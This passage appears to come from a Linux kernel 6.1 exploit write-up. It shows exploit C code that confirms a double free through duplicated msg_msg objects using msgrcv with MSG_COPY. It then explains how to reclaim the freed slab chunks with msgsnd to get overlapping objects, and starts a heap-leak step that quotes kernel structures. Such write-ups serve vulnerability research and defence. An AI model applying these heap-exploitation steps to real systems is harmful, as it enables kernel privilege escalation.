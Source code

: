 ```c
	perror("msgrcv");
key1 = msg->mtype;

memset(msg_buf, 0, sizeof(msg_buf));
ret = msgrcv(msgqids1[2], msg, sizeof(msg_buf), 0, IPC_NOWAIT | MSG_COPY);
if (ret < 0)
	perror("msgrcv");
key2 = msg->mtype;

if (key1 != key2)
{
	err(1, "fail to get double free...");
}
printf("[+] we have duplicated msg_msg! : %d, %d, %d\n", key1, key2, ret);
``` 

![lts_2](./img/lts_2.png)

After we trigger double free, we can reclaim the double-freed chunks by
allocating three 512-sized `struct msg_msg` objects through `msgsnd` syscall.
In particular, we reclaim the double-freed chunks placed in the form of `A -> B -> A ...` by `msgqids1[0]`, `msgqids1[1]`, and `msgqids1[2]`, respectively. Thus, we can get
overlapping `struct msg_msg` objects through `msgqids1[0]` and `msgqids1[2]`.

### 6.4 Heap leak

With the overlapping chunks from the previous step, the exploit performs slab address leak for further exploit steps.

- [include/linux/msg.h:msg_msg](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/include/linux/msg.h?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n9)
```c
struct msg_msg {
	struct list_head m_list;
	long m_type;
	size_t m_ts;		/* message text size */
	struct msg_msgseg *next;
	void *security;
	/* the actual message follows immediately */
};
```
- [ipc/msgutil.c:msg_msgseg](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/ipc/msgutil.c?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n37)
```c
// [1]
struct msg_msgseg {
	struct msg_msgseg *next;
	/* the next part of the message follows immediately */
};

#define DATALEN_MSG	((size_t)PAGE_SIZE-sizeof(struct msg_msg))
#define DATALEN_SEG	((size_t)PAGE_SIZE-sizeof(struct msg_msgseg))
```
- [ipc/msgutil.c:alloc_msg()](https://git.kernel.org/pub/scm/linux/kernel/git/stable/linux.git/tree/ipc/msgutil.c?h=linux-6.1.y&id=d2869ace6eeb8ea8a6e70e6904524c5a6456d3fb#n46)
```c
static struct msg_msg *alloc_msg(size_t len)
{
	struct msg_msg *msg;
	struct msg_msgseg **pseg;
	size_t alen;

	alen = min(len, DATALEN_MSG);
	msg = kmalloc(sizeof(*msg) + alen, GFP_KERNEL_ACCOUNT);
	if (msg == NULL)
```
